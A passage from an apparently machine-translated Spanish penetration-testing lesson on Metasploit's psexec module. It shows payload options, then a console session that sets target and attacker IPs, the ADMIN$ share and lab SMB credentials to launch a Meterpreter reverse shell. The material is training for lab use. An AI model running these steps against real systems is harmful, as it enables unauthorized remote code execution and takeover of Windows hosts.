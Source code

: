 ```
   SMBUser                                no        The username to authenticate as

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     68.183.42.102    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

```

Esta es un área donde el metasploit brilla en términos de facilidad de uso. En la salida de las opciones del módulo, vemos varias opciones y configuraciones con una descripción de lo que significa cada configuración. No estaremos usando`SERVICE_DESCRIPTION`, `SERVICE_DISPLAY_NAME`y`SERVICE_NAME`en esta sección. Observe cómo este exploit en particular utilizará una conexión de shell TCP inversa utilizando`Meterpreter`. Un caparazón de meterpreter nos brinda mucha más funcionalidad que una carcasa inversa TCP sin procesar, como establecimos en las secciones anteriores de este módulo. Es la carga útil predeterminada que se usa en MetaSploit.

Queremos usar el`set`comandar para configurar la siguiente configuración como tal:

### **Configuración de opciones**

Automatizar cargas útiles y entrega con metasploit

```
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.129.180.71
RHOSTS => 10.129.180.71
msf6 exploit(windows/smb/psexec) > set SHARE ADMIN$
SHARE => ADMIN$
msf6 exploit(windows/smb/psexec) > set SMBPass HTB_@cademy_stdnt!
SMBPass => HTB_@cademy_stdnt!
msf6 exploit(windows/smb/psexec) > set SMBUser htb-student
SMBUser => htb-student
msf6 exploit(windows/smb/psexec) > set LHOST 10.10.14.222
LHOST => 10.10.14.222

```

Estas configuraciones asegurarán que nuestra carga útil se entregue al objetivo adecuado (`RHOSTS`), cargado a la participación administrativa predeterminada (`ADMIN$`) utilizando credenciales (`SMBPass` & `SMBUser`), luego inicie una conexión de shell inversa con nuestra máquina host local (`LHOST`).

Estas configuraciones serán específicas de la dirección IP en su cuadro de ataque y en el cuadro de destino. Así como con las credenciales que puede reunir en un compromiso. Podemos establecer la dirección IP del túnel VPN LHOST (host local) o la ID de interfaz del túnel VPN.
